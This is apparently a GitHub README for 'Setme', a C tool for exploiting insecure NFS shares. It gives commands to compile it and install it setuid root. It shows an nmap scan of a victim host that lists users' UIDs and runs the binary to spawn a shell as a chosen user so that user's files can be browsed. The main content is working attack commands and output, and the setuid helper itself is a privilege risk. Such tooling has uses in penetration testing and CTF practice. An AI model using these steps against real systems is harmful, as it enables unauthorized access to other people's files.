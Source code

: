 # Setme

**A simple binary made in C to make exploitation of insecure NFS systems easier from Linux host.**  
This one binary avoids having to add users and groups (and later deleting) when going through many different users NFS directories.
##

**Installation:**  
Download the file setMe.c from the repo.

Compile with:  
**gcc setme.c -o setMe**  
Then:  
sudo chown root:root ./setMe && sudo chmod gu+s ./setMe

*Considerations:*  
I would make sure you keep access to this binary very restricted, or delete after use- but I guess you know that since your a pro.

##
**Usage:  
sudo nmap --script=nfs-ls** victimIP  
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-09 15:08 MST  
Nmap scan report for 10.10.10.10  
Host is up (0.097s latency).  
Not shown: 993 closed ports  
PORT STATE SERVICE  
22/tcp open ssh  
25/tcp open smtp  
80/tcp open http  
110/tcp open pop3  
111/tcp open rpcbind  
| nfs-ls: Volume /home  
| access: Read Lookup NoModify NoExtend NoDelete NoExecute  
| PERMISSION **UID GID** SIZE TIME FILENAME  
| drwxr-xr-x 0 0 4096 2015-09-17T13:21:59 .  
| drwxr-xr-x 0 0 4096 2015-01-07T10:56:34 ..  
| drwxr-xr-x **1013 1013** 4096 2016-11-23T10:17:47 mike  
| drwxr-xr-x **1012 1012** 4096 2012-01-23T11:20:40 alex 
| drwxr-xr-x **1011 1011** 4096 2017-06-23T10:32:52 jeff
| drwxr-xr-x **1014 1014** 4096 2015-12-1T21:11:51 james  
|_  
119/tcp open nntp  
2049/tcp open nfs

Say we want to get into **mikes files**, we execute our binary with:  
**./setME 1013 1013**  
Then we can get varying levels of access to the files depending on how the permissions are set up on the share. 

**Another example:**  
pop@kali:/setme/$ **./setMe 1013 1013**  
$ **id**  
uid=1013 gid=1013 groups=1013  
  
  
We are now free to browse the nfs folder shares pertaining to the uid and gid in this shell.
To exit the shell type "exit".


